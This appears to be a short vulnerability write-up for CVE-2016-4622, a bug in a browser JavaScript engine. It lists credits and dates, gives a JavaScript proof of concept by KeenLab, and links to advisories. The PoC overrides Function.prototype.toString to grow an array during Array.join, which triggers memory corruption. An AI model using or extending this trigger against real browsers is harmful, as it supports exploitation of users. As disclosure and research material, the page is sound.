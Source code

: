 # CVE-2016-4622

- Report: Mar 2016
- Fix: May 2016
- Credit: KeenLab Tencent (Liang Chen, Zhen Feng, wushi), Jeonghoon Shin

## PoC

- PoC by KeenLab

```javascript
var bigArray = [];
var bigNum = 123456789.19;
var smallNum = 1234444.19;
var toStringCount = 0;

function fillBigArrayViaToString() {
  return 0;
}

Function.prototype.toString = function (x) {
  toStringCount++;
  bigArray.push(smallNum);
  bigArray.push(fillBigArrayViaToString());
  bigArray.push(fillBigArrayViaToString());
  return bigNum;
}

var i = 0;
for (i = 0; i < 4000; i++) {
  bigArray.push(fillBigArrayViaToString());
  bigArray.push(fillBigArrayViaToString());
}
var stringResult = bigArray.join(":");
```

## Reference

- [ZDI](http://www.zerodayinitiative.com/advisories/ZDI-16-343/)
- [Apple](https://support.apple.com/ko-kr/HT206565)
- [POC conference ppt](http://www.powerofcommunity.net/poc2016/keen.pdf)
